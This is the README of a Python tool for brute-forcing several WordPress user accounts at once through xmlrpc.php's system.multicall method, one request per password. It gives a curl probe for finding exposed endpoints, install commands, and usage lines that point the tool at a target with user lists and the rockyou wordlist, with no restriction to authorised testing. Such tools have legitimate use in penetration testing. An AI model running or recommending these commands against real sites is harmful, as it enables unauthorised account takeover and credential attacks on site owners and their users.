 # WP Multi-User Bruteforce
Python 3 script for bruteforcing multiple Wordpress users using only one request per password.

<img src="xmlrpc.png" alt="basic usage" width="600"/>


## How does it work?


The [Hacktrick's Wordpress Pentesting Guide](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress#xml-rpc) mentions that, if xmlrpc.php is enabled, Bruteforcing and DoS attacks can be used by abusing the system functionalities, including trying multiple users with **only one request**, using the `system.multicall` function (see [here](https://1517081779-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FILyTlmNzv1D9YhHQAJo2%2Fimage.png?alt=media&token=5aa88cc4-baa0-4e54-87c1-2cc31203199d)).


## Testing the vulnerability


Run this command, replacing `wordpress-blog.com` with your website:


```
curl -d "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>" -X POST http://wordpress-blog.com/xmlrpc.php
``` 

See if the response is an XML with all functionalities available, like: 


```
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>demo.addTwoNumbers</string></value>
  [...]
```


If yes, it's probably vulnerable.


## Installation


```
pip install requests
curl https://raw.githubusercontent.com/entr0pie/xmlrpc-multi-request/main/xmlrpc.py | tee xmlrpc.py 
```


## Usage


### Using the default wordlist (rockyou.txt)


```
python3 xmlrpc.py --target=https://your-blog.com --users admin,editor,reader
```


### Setting an wordlist:


```
python3 xmlrpc.py --target=https://your-blog.com --users admin,editor,reader --wordlist=my_wordlist.txt
```


### Start the bruteforce with an specific word inside the wordlist:


```
python3 xmlrpc.py --target=https://your-blog.com --users admin,editor,reader --wordlist=my_wordlist.txt --word=super_secure_password
```


### Using the config.json file:


By default, xmlrpc.py saves in the `config.json` the last session:


```
{
    "host":"http://your-blog.com/xmlrpc.php",
    "users":"['admin', 'editor', 'reader']",
    "wordlist":"/usr/share/wordlists/rockyou.txt",
    "word":"mcfly",
    "debug":"False"
}
```


You can replay that session running:


```
python3 xmlrpc.py --config config.json
``` 


## License


This project is under [GNU GPLv3](LICENSE).
